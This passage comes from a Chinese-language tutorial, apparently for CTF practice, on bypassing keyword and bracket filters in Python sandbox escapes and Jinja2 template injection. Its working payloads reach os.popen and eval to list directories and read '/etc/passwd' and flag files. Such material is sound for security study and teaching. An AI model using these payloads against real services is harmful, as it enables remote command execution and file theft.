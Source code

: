 这里注意，在进行hex编码的时候我们需要选用`/x`的形式，这样才能有效绕过。

##### 利用引号绕过

单双引号都行，假如过滤了flag时，我们可以使用`fl''ag`或者`fl""ag`的形式来绕过

例如

```
().__class__.__base__.__subclasses__()[77].__init__.__globals__['o''s'].popen('ls').read()

[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()
```

只要是字符串的，即payload中引号内的，都可以用引号绕过

#### 利用join()函数绕过

我们可以利用join()函数来绕过关键字过滤。例如，题目过滤了flag，那么我们可以用如下方法绕过：

```
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
```

这也是基于对PHP函数命令的理解来的。

### 绕过其他字符

#### 过滤了中括号`[]`

##### 利用`__getitem__()`绕过

可以使用**getitem**()方法输出序列属性中某个索引处的元素（相当于\[\]），例如

```
>>> "".__class__.__mro__[2]
<type 'object'>
>>> "".__class__.__mro__.__getitem__(2)
<type 'object'>
```

所以我们可以得到

```
[]=__getitem__()
```

例子

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

##### 利用字典读取绕过
